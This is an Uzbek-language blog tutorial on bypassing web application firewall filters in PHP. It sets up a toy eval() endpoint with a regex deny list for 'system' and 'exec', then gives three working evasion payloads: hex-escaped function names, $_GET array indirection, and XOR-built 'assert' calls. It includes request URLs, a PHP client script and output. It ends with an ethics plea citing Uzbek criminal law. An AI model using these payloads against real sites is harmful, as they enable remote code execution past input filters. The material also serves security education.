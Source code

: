 ```yaml
---
title: "WAFni yorib kirish ( kiberxavfsizlik )"
description: "Axmoqlar uchun ishlab chiqilgan WAF tizimini chetlab o'tish. Saytlar xavfsizligini turli usullarda yorib kirish..."
slug: wafni-yorib-kirish-kiberxavfsizlik
date: August 30, 2022
---
```


Sarflavhani o'zidayoq ko'pchilikni waf o'zi nima degan savol o'ylantirgan bo'lsa kerak. 

WAF - Web application firewall ya'ni web saytlarni xss, sql injection, cookie poisoning (cookie orqali zaharlash) kabi hujum turlaridan himoya qiladigan ilova hisoblanadi. 
Ushbu ilova orqali siz hattoki teshik tog'oraga aylangan tizimni ham bemalol hujum scriptlarini filtrlash orqali himoya qilishingiz mumkin.

Lekin bu dunyoda xuddi odam immun tizimi kabi mukammal himoya tizimi mavjud emas. Har qanday himoya tizimini yorib o'tishning yo'llari mavjud.

## WAF qanday ishlaydi
WAF oldindan belgilangan filtrlash shartlariga binoan foydalanuvchidan kelayotgan murojaatlar orasidagi ishga tushirish mumkin bo'lgan kodni tozalaydi.

Misol uchun `sayhello` va `system` funsksiyalarini filtrlash. Bunda kritilgan matnda shart uchun qo'shilgan ikkita funksiya nomi bo'lsa xatolik beriladi:
```php

function sayhello( $text ) {
  echo "Salom: $text";
}
if ( ! preg_match('/sayhello|system/', $code ) ) {
	eval( $code );
}else{
	echo 'Ruxsat etilmagan kiritish';
}
```

## Chetlab o'tish

### Birinchi usul
PHPda `string`  o'rgaruvchisini e'lon qilish vaqtida ekranizatsiya qilish mumkin. Soddaroq aytganda biz double quote ya'ni " belgisi orasida berilgan maxsus belgilarni chop etishimiz mumkin. Yangi qator ( \n ), tabulator (\t) kabi maxsus belgilarni ko'pchilik ishlatib ko'rgan bo'lsa ham kerak.

Ular orasida belgilarni o'noltilik sanoq tizimida chop etish usuli ham kiritilgan.
Misol "Salom dunyo!" yozuvi:
```php
echo "\x53\x61\x6c\x6f\x6d\x20\x64\x75\x6e\x79\x6f\x21";
```
Qo'shimcha tarzda esa php ham boshqa ko'plab tillardagi kabi o'zgaruvchilarga asoslangan funksiyalarni qo'llab quvvatlaydi.

Misol buyerda `$test` o'zgaruvchisi qavs belgilangach funskiyaga murojaat qilishga o'tyapti: 
```php
$test = "sayhello";
$test('Toshmat');
```

Demak bizda o'n oltilik sanoq tizimiga asoslanib chop etish va o'zgaruvchini funsksiyaga murojaat qila olishi orqali yuqoridagi himoyani chetlab o'tish imkoni mavjud.

```php
$code = '"\x73\x61\x79\x68\x65\x6c\x6c\x6f"("test");'; //"sayhello"("test");
```

Natija:
```
Salom: test
```

Yoki ikkinchi funskiya uchun murojaat:
```php
$code = '"\x73\x79\x73\x74\x65\x6d"("whoami");'; //"system"("whoami")
```
Natija:
```
sapper
```
### Ikkinchi usul
Ushbu usul uchun endi himoyani yanada kuchaytiramiz va murojaatlarini `$_GET` so'rovi orqali qabul qilamiz.
```php
$code = $_GET['code'];
if ( ! preg_match('/system|exec|[\"\']/', $code ) ) {
	eval( $code );
}else{
	echo 'Ruxsat etilmagan kiritish';
}
```
E'tibor bergan bo'lsangiz endi kodimizda tirnoq yoki qo'shtirnoqlarni ham filtrlash qo'shildi. Endi biz birinchi usuldan foydala olmaymiz. Lekin boshqa bir yo'l ham mavjud. Massiv asosida chetlab o'tish. Kodimizda `$code`  o'rgaruvchisi uchun `$_GET` massivining `code` kalitiga teng qiymatni belgilayapmiz. Lekin massivdagi boshqa kalitlar e'tiborsizligicha qoldirilmoqda.

Demak biz http orqali quyidagi murojaatni amalga oshiramiz.
```
/hole.php?a=sayhello&b=test&code=$_GET[a]($_GET[b]);
```
Bunda `$_GET` massivining `code` elementiga himoyadagi `sayhello` va qo'shtirnoqlar biriktirilmayapti. Uning o'rniga tekshiruvdan tashqarida bo'lgan `a` va `b` elementlarini o'rgaruvchi sifatida belgilash qo'llanilmoqda.

Natija:
```
**Notice**: Use of undefined constant a - assumed 'a' in **hole.php(14) : eval()'d code** on line **1**  
  
**Notice**: Use of undefined constant b - assumed 'b' in **hole.php(14) : eval()'d code** on line **1**  
Salom: test
```
### Uchinchi usul
Keling maydalashib o'tirmaylikda `string` imkoniyatlaridan voz kechaylik. Filtrlashdan qochishni dinamik o'rgaruvchi yaratib `assert` orqali tizimga birlashtirib yuboraylik.

PHP da debugging uchun juda ko'p imkoniyatlar mavjud. Assert ham dasturni tekshirish jarayonida ishlatilib shart bajarilmaganda boshqa bir harakatni amalga oshirish uchun qo'llaniladi.

Misol:
```php
<?php
$a = 1;
assert($a == 1, "O'zgaruvchi birga teng emas");
echo "Birinchi amal bajarildi";
assert($a == 2, "O'zgaruvchi birga teng emas");
echo "Ikkinchi amal bajarildi";
```
Bundan `$a` birinchi amalda rost javobini beradi. Chunki o'zgaruvchi birga teng. Ikkinchi amalda esa xatolik kuzatamiz chunki ikkiga teng emas.
```
Birinchi amal bajarildi
Fatal error: Uncaught AssertionError: O'zgaruvchi birga teng emas in code.php:5
Stack trace:
#0 code.php(5): assert(false, 'O'zgaruvchi bir...')
#1 {main}
  thrown in code.php on line 5
```
Demak biz bu usulda assertning shartni bajarish uchun unga murojaat qilish imkonidan foydalanamiz. 

Xor operatori orqali esa dinamik belgi yaratamiz.

Misol: 
```php
$_POST['_'] = 'sayhello("Toshmat");';
assert($_POST['_']);
```
Natija:
```
Salom: Toshmat  
**Warning**: assert(): Assertion "sayhello("Toshmat");" failed in **test.php** on line **26**
```
*Xatolik chiqishiga sabab sayhello funksiyamizdan qayta rost (true) javobi kelmaganida. Lekin assert funksiyani ishga tushirdi*

Dinamik o'zgaruvchi generatsiya qilish uchun esa phpning XOR operatoridan foydalanamiz. Demak shart shunday belgilanishi kerakki ikkita bizga kerakli bo'lmagan belgining xor natijasidan string uchun belgi chiqarishimiz kerak.

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```
Yuqoridagi kodda xor sharti orqali dinamik o'zgaruvchi funksiya yaratilib uning argumenti sifatida `$_POST` so'rovidan kelgan `_` kalitiga teng qiymat belgilanmoqda.

Demak sahifaga murojaat qilish:

```
/hole.php?code=$_=(%27%01%27^%27`%27).(%27%13%27^%27`%27).(%27%13%27^%27`%27).(%27%05%27^%27`%27).(%27%12%27^%27`%27).(%27%14%27^%27`%27);$__=%27_%27.(%27%0D%27^%27]%27).(%27%2F%27^%27`%27).(%27%0E%27^%27]%27).(%27%09%27^%27]%27);$___=$$__;$_($___[_]);
```
```php
<?php

$postdata = http_build_query(
    array(
        '_' => 'sayhello("Toshmat");',
    )
);
$opts = array('http' =>
    array(
        'method'  => 'POST',
        'header'  => 'Content-Type: application/x-www-form-urlencoded',
        'content' => $postdata
    )
);

$context  = stream_context_create($opts);

$result = file_get_contents('http://localhost/hole.php?code=$_=(%27%01%27^%27`%27).(%27%13%27^%27`%27).(%27%13%27^%27`%27).(%27%05%27^%27`%27).(%27%12%27^%27`%27).(%27%14%27^%27`%27);$__=%27_%27.(%27%0D%27^%27]%27).(%27%2F%27^%27`%27).(%27%0E%27^%27]%27).(%27%09%27^%27]%27);$___=$$__;$_($___[_]);', false, $context);

echo strip_tags( html_entity_decode( $result ) );
```

Natija: 
```
Notice:  Use of undefined constant _ - assumed '_' in test.php(10) : eval()'d code on line 2
Salom: Toshmat
Warning:  assert(): Assertion "sayhello("Toshmat");" failed in test.php(10) : eval()'d code on line 2
```

## Xulosa

Yuqoridagi uchta usul bu shunchaki sizning kelajakdagi loyihalaringiz himoyasini ta'minlash uchun ko'rsatildi xolos. Sizdan iltimos qilib so'ragan bo'lardimki ushbu o'rgangan bilimlaringizni kimgadir zarar yetkazish maqsadida qo'llamang. 

Bunday harakatlar uchun O'zbekiston Respublikasini Jinoyat kodeksining 278-moddasi 5-bandida ham alohida ogohlantirishlar berilgan.

> Kompyuter sabotaji
> O‘zganing kompyuter uskunasini yoki xizmatda
> foydalaniladigan kompyuter uskunasini qasddan ishdan chiqarish, xuddi
> shuningdek kompyuter tizimini buzish (kompyuter sabotaji) — uch
> yilgacha muayyan huquqdan mahrum qilib, bazaviy hisoblash miqdorining
> uch yuz baravaridan to‘rt yuz baravarigacha miqdorda jarima yoki ikki
> yilgacha ozodlikni cheklash yoxud ikki yilgacha ozodlikdan mahrum
> qilish bilan jazolanadi.
